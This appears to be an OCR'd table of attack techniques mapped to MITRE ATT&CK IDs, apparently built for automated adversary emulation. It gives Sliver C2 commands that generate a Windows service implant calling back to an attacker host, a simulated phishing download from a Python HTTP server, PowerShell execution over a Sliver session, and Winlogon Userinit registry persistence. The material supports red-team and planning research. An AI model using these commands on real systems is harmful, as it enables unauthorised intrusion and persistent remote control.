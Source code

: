 | bc50eb97-4a6d-4a9d-b0b2-e9cf623a9106 | Build the executable file (service) of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a service executable payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format service --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(service_payload ?p - payload)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 7480189e-1a4b-45f5-b225-c102915f7262 | Simulate the victim download a file on its machine | \['T1566.002'\] | Manual | \['windows'\] | \['Initial Access'\] | \['Phishing: Spearphishing Link'\] | This step simulates the victim accidentally downloads a malicious file by clicking a link. | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the file on the attacker's machine\n3. Download the file to #{PATH}\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)'\] | \['(file_exists ?path - path ?file - file ?t - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| f9b8daff-8fa7-4e6a-a1a7-7c14675a545b | Winlogon HKLM Userinit Key Persistence - PowerShell | \['T1547.004'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Winlogon Helper DLL'\] | PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.<br><br>Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.<br> | {'executor': 'Powershell Executor', 'command': 'Set-ItemProperty "HKLM:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force\n'} | {'binary_to_execute': {'description': 'Path of binary to execute', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(file_exists ?binary_to_execute - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |
| f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |